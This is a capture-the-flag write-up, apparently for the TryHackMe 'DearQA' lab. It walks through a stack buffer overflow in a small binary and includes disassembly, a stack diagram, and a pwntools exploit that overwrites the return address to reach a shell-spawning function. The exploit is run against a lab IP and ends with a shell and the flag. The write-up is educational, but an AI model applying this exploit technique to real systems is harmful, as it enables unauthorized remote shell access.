 Vulnerable file : DearQA.DearQA 
Target ip : 10.10.156.111

---

Analyzing file:
```bash
file DearQA-1627223337406.DearQA 
```
```
DearQA-1627223337406.DearQA: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8dae71dcf7b3fe612fe9f7a4d0fa068ff3fc93bd, not stripped
```

---

Port 5700 is running the program. We can run it by running :
```bash
nc 10.10.156.111 5700
```

----

That how looks the decompily /  desassambly code (Bonaryninja)
```C
int64_t vuln()
{
    puts("Congratulations!");
    puts("You have entered in the secret f…");
    fflush(stdout);
	return execve("/bin/bash", 0, 0);
}

int32_t main(int32_t argc, char** argv, char** envp)
{
    puts("Welcome dearQA");
    puts("I am sysadmin, i am new in devel…");
    printf("What's your name: ");
    fflush(stdout);
    void var_28;
    __isoc99_scanf("%s", &var_28);
    printf("Hello: %s\n", &var_28);
    return 0;
}

```

```ASM
vuln:
	push    rbp {__saved_rbp}
    mov     rbp, rsp {__saved_rbp}
	mov     edi, 0x4007b8  {"Congratulations!"}
    call    puts
    mov     edi, 0x4007d0  {"You have entered in the secret f…"}
    call    puts
    mov     rax, qword [rel stdout]
    mov     rdi, rax
    call    fflush
    mov     edx, 0x0
    mov     esi, 0x0
    mov     edi, 0x4007f9  {"/bin/bash"}
    call    execve
    pop     rbp {__saved_rbp}
    retn     {__return_addr}

main:
    push    rbp {__saved_rbp}
    mov     rbp, rsp {__saved_rbp}
    sub     rsp, 0x20
    mov     edi, 0x400803  {"Welcome dearQA"}
    call    puts
    mov     edi, 0x400818  {"I am sysadmin, i am new in devel…"}
    call    puts
    mov     edi, 0x40083e  {"What's your name: "}
    mov     eax, 0x0
    call    printf
    mov     rax, qword [rel stdout]
    mov     rdi, rax
    call    fflush
    lea     rax, [rbp-0x20 {var_28}]
    mov     rsi, rax {var_28}
    mov     edi, 0x400851
    mov     eax, 0x0
    call    __isoc99_scanf
    lea     rax, [rbp-0x20 {var_28}]
    mov     rsi, rax {var_28}
    mov     edi, 0x400854  {"Hello: %s\n"}
    mov     eax, 0x0
    call    printf
    mov     eax, 0x0
    leave    {__saved_rbp}
    retn     {__return_addr}
```

---

STACK :

High addresses on top to low addresses on bottom
Pushing and element into the stack is adding to the stack, to the closest AND lowest addresses he can.

Here is whe
```ASM
lea rax, [rbp-0x20 {var_28}]
```

|               | 0xffffff                   |                    |
| ------------- | -------------------------- | ------------------ |
|               | RIP : address of main func |                    |
|               | RBP                        | Register to find ! |
|               |                            |                    |
| in the stack  |                            |                    |
| goes this way |                            |                    |
| message and   |                            |                    |
| I'm writing a | 0x004006fd : rbp - 0x20    |                    |
|               |                            |                    |
|               |                            |                    |
|               |                            |                    |
|               | 0x00000                    |                    |
There is 20 bytes to write on the stack before reaching RBP.  
Then, there is 8 bytes (1 stack instruction) to reach RIP, the register we want to write on.

---

Let's make a python exploit script :
```Python
from pwn import *

context.binary = binary = "./DearQA.DearQA"

static = ELF(binary)


"""
No PIE, co Canary so addresses are not randomly placed and they will stay persistant

scanf writes rbp-20
20 bytes to reach RBP : "A"
8 bytes to reach rip  : "B"
vuln() address

"""

vuln_address = p64(static.symbols.vuln)  #Address of vuln symbol strings

#p64() make the address from 64bits to 8bits and convert it to little endian

payload = b"A"*0x20 + b"B"*0x8 + vuln_address

p = process()
p.recvuntil(b"name:")
p.sendline(payload)
p.interactive()
```

```bash
python3 exploit.py
```
```
Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB\x86\x06@
Congratulations!
You have entered in the secret function!
$ id
uid=1000(vdarras)
```

---

Success ! Now let's put that on the real program running on port 5700 of the target ip, let's modify the python script :

```python
```Python
from pwn import *

context.binary = binary = "./DearQA.DearQA"

static = ELF(binary)

vuln_address = p64(static.symbols.vuln)

payload = b"A"*0x20 + b"B"*0x8 + vuln_address

p = remote("10.10.156.111", 5700) #IP and Port to execute the payload
p.recvuntil(b"name:")
p.sendline(payload)
p.interactive()
```

```bash
python3 exploit.py
```
```
Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB\x86\x06@
Congratulations!
You have entered in the secret function!
bash: cannot set terminal process group (446): Inappropriate ioctl for device
bash: no job control in this shell
ctf@dearqa:/home/ctf$ $ id
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),115(bluetooth)
```

Flag : THM{PWN_1S_V3RY_E4SY}